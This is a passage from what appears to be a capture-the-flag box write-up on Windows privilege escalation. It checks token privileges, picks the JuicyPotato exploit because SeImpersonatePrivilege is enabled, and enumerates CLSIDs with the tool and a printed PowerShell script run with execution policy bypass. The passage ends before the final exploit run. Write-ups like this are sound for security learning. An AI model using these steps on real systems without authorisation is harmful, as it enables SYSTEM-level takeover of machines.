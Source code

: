 ### Privilege Escalation

###### `Checking Privileges for currente user`
```
PS C:\Users\kohsuke\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

We are going to use JuicyPotato Exploit since the `SeImpersonatePrivilege` is enabled. This was one of the  box where I did not even looked at any hits and solved by myself.

###### `Enumerating CLSID for Juicy Potato Exploit`
One of the challenging factor was to find out the correct CLSID. Here is how it should be done. Although the Default BITS CLSID would work for this box.
Get the [JuicyPotato.exe from here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1). 
My [JuicyPotatoNG.exe](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1) did not work for this box when trying with default CLSID.

Now time to enumerate CLSID 
```
PS C:\ProgramData> .\JuicyPotato.exe -z -l 1337 
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
```

By entering just the `.\JuicyPotato.exe -z -l 1337`, you will see the CLSID that belongs to BITF. But In a general scenario, the BITS CLSID would not always work. So you will need to find out the correct CLSID which would spawn up a process for `NT AUTHORITY\SYSTEM`. 

You need [getclsidtest.ps1](https://github.com/tcprks/Rchitect/blob/Yoda/Scripts/getclsidtest.ps1) and get it on the target box. Than run the PowerShell script using the following command. Here's how getclsidtest.ps1 look like.
```
New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
$CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
foreach($a in $CLSID)
{
    Write-Host $a.CLSID
}
```

Running the getclsidtest.ps1 with the executionpolicy bypass. 
```
PS C:\ProgramData> powershell -executionpolicy bypass -file getclsidtest.ps1 > cls_id.txt
```
